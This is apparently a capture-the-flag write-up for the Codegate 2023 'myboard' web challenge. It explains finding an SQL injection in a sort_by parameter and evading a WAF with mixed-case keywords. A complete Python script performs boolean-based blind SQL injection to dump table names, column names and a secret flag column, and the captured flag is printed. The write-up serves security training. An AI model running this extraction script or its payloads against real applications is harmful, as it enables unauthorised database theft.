





# [ Web ] myboard

## Description

It's Simple Board Service

http://3.38.182.27/

## Recon

First thing first we are given a web service. When the web is opened it will display like this



So, this is just a normal website that displays the list of some data, but
after I look around the feature, this website has an ability to sort the
data.

When I try that sort feature the website will redirect to same url, but
with addition of query parameters, like this


And the data will be sorted based on the value of key **sort_by**.

After that I try to input the quote (‘) character to check if its vulnerable with **sql injection**



And yeah, it's true this website has a **sql injection vulnerability**. I assume that the value of key **sort_by is not filtered** and directly insert to the sql statement.

## Reference

Next, I try to search some reference about the sql injection in sort by statement, then I find **portswigger** article 

https://portswigger.net/support/sql-injection-in-the-query-structure

After look around and reading the article I concluded that this is categorized as **blind sql injection boolean based**.



## WAF

Something the response of website is 403 or forbidden for some case, like this



I assume that is have WAF inside the app maybe. So for bypass it I use combining case, example when try input **WHERE** I will change it to **WhErE**

## Exploit

For the exploit I built this scripting python code, why? because this is actually blind sql injection, and yeah I don’t want to try this manually, so this is my script

```py
import requests
from bs4 import BeautifulSoup
import string

target_url = "http://3.38.182.27?page=1&sort_by="


class Exploit:
    def __init__(self, subquery) -> None:
        self.subquery = subquery

    def send_request(self, index, guesser):
        global target_url
        payload = f"(CASE WHEN ({self.subquery.format(index)})={guesser} THEN id ELSE title END) DESC -- "
        res = requests.get(target_url + payload)
        if res.status_code > 400: exit(1)
        return res.text

    def check(self, html):
        soup = BeautifulSoup(html, "html.parser")
        indicator = soup.find("tbody").find("tr").find("td").text
        return indicator == "6"

    def run(self):
        possible = string.printable
        result = ""

        i = 1
        while True:
            for idx, c in enumerate(possible):
                html = self.send_request(i, ord(c))
                checking = self.check(html)

                if checking:
                    result += c
                    print(result)
                    break

                if idx == len(possible) - 1: exit(0)
            i += 1


if __name__ == "__main__":
    """
    Run this exploit in turns
    NOTE: Uncomment the exploit you want to run
    """

    # 1. get the all table names
    # exploit = Exploit("SeLect ASCII (BINARY SUBSTR(GROUP_CONCAT(table_name), {}, 1)) FROM information_schema.tables WHERE table_schema=database()")

    # 2. get the all column names
    # exploit = Exploit("SeLect ASCII (SUBSTR(GROUP_CONCAT(column_name), {}, 1)) frOm information_schema.columns WherE table_schema=database()")

    # 3. get the all column values of the table
    exploit = Exploit("SeLect ASCII (SUBSTR(GROUP_CONCAT(secret_flag), {}, 1)) frOm super_secret")

    exploit.run()
```

## Result



## Flag

codegate2023{db6c96806d1d8a8dd38a54be3e3e432f}